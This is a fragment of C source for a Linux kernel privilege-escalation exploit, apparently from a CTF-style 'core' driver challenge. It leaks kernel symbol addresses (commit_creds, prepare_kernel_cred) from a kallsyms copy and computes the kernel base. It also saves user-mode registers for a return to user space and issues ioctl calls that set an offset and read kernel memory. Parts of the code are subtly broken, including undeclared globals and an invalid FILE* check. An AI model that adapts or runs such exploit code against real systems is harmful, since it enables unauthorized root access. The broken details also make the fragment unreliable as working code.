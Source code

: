 ```cpp
size_t raw_vmlinux_base = 0xffffffff81000000;
size_t vmlinux_base = 0;

size_t find_symbols() {
    FILE *kallsyms_fd = fopen("/tmp/kallsyms", "r");
    if (kallsyms_fd < 0) {
        puts("[!] Open /tmp/kallsyms error...");
        exit(-1);
    }

    char buf[0x30];
    while(fgets(buf, 0x30, kallsyms_fd)) {
        if (commit_creds & prepare_kernel_cred)
            return 0;

        if (strstr(buf, "commit_creds") && !commit_creds) {
            char hex[20];
            strncpy(hex, buf, 16);
            sscanf(hex, "%llx", &commit_creds);
            printf("commit_creds => %p.\n", commit_creds);
            vmlinux_base = commit_creds - 0x9c8e0;
            printf("vmlinux_base => %p.\n", vmlinux_base);
        }

        if (strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred) {
            char hex[20];
            strncpy(hex, buf, 16);
            sscanf(hex, "%llx", &prepare_kernel_cred);
            printf("prepare_kernel_cred => %p.\n", prepare_kernel_cred);
            vmlinux_base = prepare_kernel_cred - 0x9cce0;
            printf("vmlinux_base => %p.\n", vmlinux_base);
        }
    }

    if (!(prepare_kernel_cred & commit_creds)) {
        puts("[*] Error...");
        exit(-1);
    }
}

size_t user_cs, user_ss, user_rflags, user_sp;

void save_status() {
    __asm__(
        "mov user_cs, cs;\n"
        "mov user_ss, ss;\n"
        "mov user_sp, sp;\n"
        "pushf;"
        "pop user_rflags;\n"
    );
    puts("[*] User status has been saved.");
}

void set_off(int fd, long long idx) {
    printf("[*] Set off = %ld.\n", idx);
    ioctl(fd, 0x6677889C, idx);
}

void core_read(int fd, char *buf) {
    puts("[*] Read to buf!");
    ioctl(fd, 0x6677889B, buf);
}

```